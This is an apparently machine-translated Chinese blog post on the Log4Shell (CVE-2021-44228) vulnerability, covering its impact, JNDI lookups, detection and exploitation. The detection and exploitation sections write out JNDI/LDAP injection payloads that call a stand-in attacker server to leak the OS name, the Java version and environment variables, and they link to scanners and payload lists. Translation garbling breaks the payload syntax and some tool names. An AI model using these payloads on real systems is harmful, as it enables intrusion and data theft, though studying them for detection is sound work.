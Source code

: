 # 脆弱性的影响

由于这个 **Log4j 库**的广泛采用，这个漏洞的影响是巨大的。如果您的环境中有一些 java 应用程序，它们很可能使用 **Log4j** 来记录内部事件。

该漏洞利用也相当灵活，允许您从本地到远程 LDAP 服务器和其他协议检索和执行任意代码。

所有这些因素以及**对如此多系统的高度影响**使得该漏洞的**临界**严重等级为[cvss 3](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-44228&vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1&source=NIST)10.0。该漏洞正被积极利用的事实进一步增加了受影响组织的风险。

# 识别

在解析日志时，Log4j 检查它接收到的输入，并尝试解析输入中包含的变量。特别是，Log4j 支持 JNDI 查找，这允许通过网络检索变量。为了更好地理解这一点，让我们看看什么是 JNDI。

什么是 JNDI？

> Java 命名和目录接口(Java Naming and Directory Interface，JNDI)为应用程序提供了一个 API，用于与向 RMI 注册表或目录服务(如 LDAP)注册的远程对象进行交互。JNDI 有许多服务提供商接口(SPI ),使其能够使用各种目录服务。

为了识别漏洞，我们需要找出任何可能被记录的字段。例如，任何端点、用户代理、推荐人、你搜索的东西、你以某种形式提交的东西等等。

我们可以用来检测的有效载荷是:
***$ { JNDI:LDAP://XYZ . attack-controlled-server . com/POC }***

如果 collaborator 服务器被阻止，我们还可以使用本主题中提到的不同服务进行检测。

我们也可以使用下面的 **burp 扩展**来自动扫描这个漏洞。

[](https://github.com/0xDexter0us/Log4J-Scanner) [## GitHub—0x dexter 0 us/Log4J-Scanner:扫描 Log4Shell 的 Burp 扩展(CVE-2021–44228)漏洞…

### 使用自定义有效负载扫描 log 4 shell(CVE-2021–44228)漏洞的 Burp 扩展。我不负责你的…

github.com](https://github.com/0xDexter0us/Log4J-Scanner) 

# 剥削

**漏洞利用要求:**

*   具有易受攻击的 log4j 版本的服务器
*   具有任何协议(HTTP、TCP 等)的端点，允许攻击者发送漏洞字符串
*   从该请求中记录字符串的 log 语句。

因此，攻击者所要做的就是找到一些被记录的输入，并添加类似于*$ { JNDI:LDAP://attack-controlled-server/x }*的内容。

让我们看一些剥削的例子

*   获取目标的**操作系统**名称。*$ { JNDI:LDAP://$****{ sys:OS . name }****。*attacker-controlled-server.com/poc*}*
*   识别目标系统上运行的 Java 版本。$*{ JNDI:LDAP://$****{ sys:Java . version }****。*attacker-controlled-server.com/poc*}*
*   对于使用恶意 jar 文件的攻击，请遵循在[https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)提供的步骤
*   对于泄漏的服务器端环境变量*$ { JNDI:LDAP://$****{ env:user }****。*attacker-controlled-server.com/poc*}*
*   [log 4 hell 的细胞核模板](https://github.com/danielmofer/nuclei_templates/tree/main/templates)
*   [Log4Shell 打嗝扫描仪](https://portswigger.net/bappstore/b011be53649346dd87276bca41ce8e8f)
*   [用于开发的不同有效载荷](https://twitter.com/Rayhan0x01/status/1469571563674505217)
